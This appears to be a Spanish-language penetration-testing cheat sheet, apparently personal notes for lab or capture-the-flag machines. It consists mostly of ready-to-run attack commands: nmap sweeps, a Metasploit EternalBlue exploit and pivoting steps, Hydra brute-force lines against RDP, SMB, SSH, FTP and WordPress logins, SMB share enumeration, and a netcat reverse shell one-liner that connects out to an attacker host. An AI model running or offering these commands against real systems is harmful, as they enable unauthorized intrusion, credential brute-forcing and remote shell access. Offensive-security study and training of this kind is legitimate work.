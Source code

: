 • Crear entorno de trabajo.
• Recuerda ver EL CODIGO FUENTE a para poder **agregar la dirección a /etc/hosts**, cuando se trate de un virtual hosting.
• **Enumerar usuarios usando cat /etc/passwd**
• Apache2 Debian default page consultar /phpinfo.php

/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


## Escaneo de red

`Comprobamos TTL
ping -c1 10.0.60.1

``Barrido de ping, visualizar endpoints en la red
nmap -sn 10.0.60.**0**/24

``Ver interfaces de red
ip a
arp -a 
ifconfig
arp-scan -I eth1 --localnet --ignoredups

# Linux

``Ver interfaces de red
ip a

`Ver privilegios
sudo -l

`Ver conexiones de red
ss -natup

`Ver permisos de archivos del usuario actual
find / -perm -4000 2>/dev/null
#### Linux Ping Sweep

`for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`

`Tablas de enrutamiento
ip route

`Bash inversa`
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
# Windows

## Escaneo de red

`Reconocimiento de red 
`Tablas de enrutamiento
route print

`Comprobar versión de windows, nombre de dominio
crackmapexec smb 10.0.10.40

`Comprobar si es vulnerable Eternal Blue
nmap -p445 --script smb-vuln-ms17-010 10.0.10.40

#### Windows Ping Sweep

`for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.`
## Ataque Metasploit

`Metaxploit de EternalBlue
search eternalblue
msfconsole
use windows/smb/ms17_010_eternalblue

`Ver interfaces de redes en meterpreter
ipconfig

`Ver sesiones de metaexploit
sessions -l

`Pivoting con metaexploit
search   post/multi/manage/autoroute
use post/multi/manage/autoroute
options
set SESSION 1
run

`Portforwarding metaexploit/meterpreter
sessions -i 1
ipconfig
**portfwd add -l 5000 -p 80 -r (IP maquina victima)**
(Puerto 5000 de maquina atacante, sea el puerto 80 de la maquina victima)
**portfwd add -l 3000 -p 21 -r (IP maquina victima)**
(Puerto 5000 de maquina atacante, sea el puerto 80 de la maquina victima)

# Dirb

`Escaneo basico, diccionario predeterminado
dirb http://webscantest.com/

`Escaneo basico, selección de diccionario 
dirb http://webscantest.com/ /usr/share/dirb/wordlists/vulns

`Escaneo basico, diccionario y extensión
dirb http://10.10.252.250/retro /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -X .php

`Escaneo con diccionario y diccionario de extensiones.
dirb http://10.10.204.60/ /usr/share/dirb/wordlists/vulns/iis.txt -x /usr/share/dirb/wordlists/extensions_common.txt

`Objetivos vulnerables en dirb
cd /usr/share/dirb/wordlists/vulns 

# Hydra

`Diccionarios que usar

    /usr/share/metasploit-framework/data/wordlists/common_users.txt
    /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


`Fuerza bruta a rdp
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3389

hydra -l Wade -P /usr/share/wordlists/rockyou.txt rdp://10.4.18.131 -s 3389

`Fuerza bruta a login panel

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.55 http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -t 64 -F

(ultimo field incorrect,wrong o cualquier display que haya en el mensaje de erorr)"
http-post-form: ruta absoluta del panel de inicio de sesión, usuario y contraseña, string contenida dentro del panel para verificar el cambio de estado 404 a 203

`Fuerza bruta a SMB
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.0.2.55 smb

`Fuerza bruta wordpress
hydra -l admin -P ./passwordlist.txt 10.0.2.55 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:Incorrect'

`Fuerza bruta por ssh
hydra -v -V -u -L users.txt -p "" -t 1 -u 10.0.2.55 ssh

``Fueraza bruta FTP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV 10.0.2.55 ftp

-l Especificar unico usuario
-L Diccionario de usuarios
-p Especificar contraseña usuario unico
-P Diccionario de contraseñas

# RDP

`Conectarse a windows por rdp
	xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3389
	xfreerdp /u:USER /p:PASSWORD /v:IPVICTIMA:PUERTOVICTIMA

# Nmap

``Barrido de ping, visualizar endpoints en la red
nmap -sn 10.0.2.**0**/24

``Barrido de nmap a ips
sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.34,35,36,37,38,55 -oN tcp_scan.txt
sudo nmap -p- --open --min-rate 4000 -sS -sCV -Pn -n 10.10.10.39 -vvv -oN tcp_scan.txt
### `Optimizar puertos para ver versiones y servicios
grep '^[0-9]' tcp_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr  ' ' ','

``Escanear puertos abiertos
nmap -p135,139,22,25,445,49665,49670,80 -sC -sV --open 10.0.2.43,45,46,53,55 -Pn -oN full_scan.txt

`Enumerar directorios con NMAP
nmap -p80 -Pn -n -vvv --script=http-enum 10.10.252.250

# Enumeración y explotación de samba

 `Enumeración de recursos:

smbclient -L 10.0.2.43 -N
smbmap -H 10.0.2.43

crackmapexec smb 10.0.2.43 -u '' -p '' --shares
crackmapexec smb 10.0.2.43 -u '' -p '' --users

**enum4linux 10.0.2.43**

`Ingresar sessión con anonymous y descarga de archivos:

smbclient //10.0.2.43/anonymous

• Obteniendo archivo en samba:
get archivo.txt
• Descargar todos los archivos recursivamente dentro de samba:
prompt
mget *

`Ataque de diccionario SMB:

crackmapexec smb 10.0.2.43 -u test -p passwords.txt

``Inicios de sesión samba

smbmap -H 10.0.2.43 -u helios -p qwerty
**smbclient //10.0.2.43/helios -U helios** (luego pedirá contraseña)

`Escaneo de vulnerabilidades samba con map
nmap -p445 --script="smb-vuln-\*" 10.0.2.45 
# WPSCAN

`Enumeración de usuarios
wpscan --url http:\/\/10.2.0.48/ -e u


# MSF

